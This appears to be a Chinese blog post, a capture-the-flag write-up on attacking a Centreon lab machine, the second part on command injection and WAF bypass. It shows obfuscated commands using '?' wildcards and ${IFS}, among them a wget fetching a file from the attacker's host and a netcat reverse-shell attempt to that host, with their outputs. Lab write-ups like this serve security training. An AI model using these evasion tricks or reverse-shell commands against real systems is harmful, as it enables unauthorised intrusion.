 ```yaml
---
title: Wall-rce与绕过waf(下)
categories:
- training
tags:
- training
---
```

参考资料：[绕过waf之命令执行](https://whale3070.github.io/waf/2019/11/11/12-x/)

```
题外话：恐惧和自满是练习的天敌。
							——————《刻意练习》
```
访问`http://10.10.10.157/centreon/main.php?p=60901&o=c&server_id=1`

手动测试命令执行

## (失败的）测试绕过waf
`/bin/w??t${IFS}http://10.10.14.18/index.html`

![18](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/18.PNG)
失败

---

`/usr/bin/w??t${IFS}http://10.10.14.18:800/index.html%20%23`
![19](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/19.PNG)

![20](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-18-10/20.PNG)
成功

---

/bin/nc.traditional -e 10.10.14.18 801

`/bin/n?.???????????${IFS}-e${IFS}10.10.14.18${IFS}801%20%23`

结果
/bin/n?.??????????? not found

---
/bin/ls /bin/bash

结果：
/bin/ls: cannot access &#039;/bin/bash%20%23&#039;: No such file or directory

---

pwd

结果：
not found

---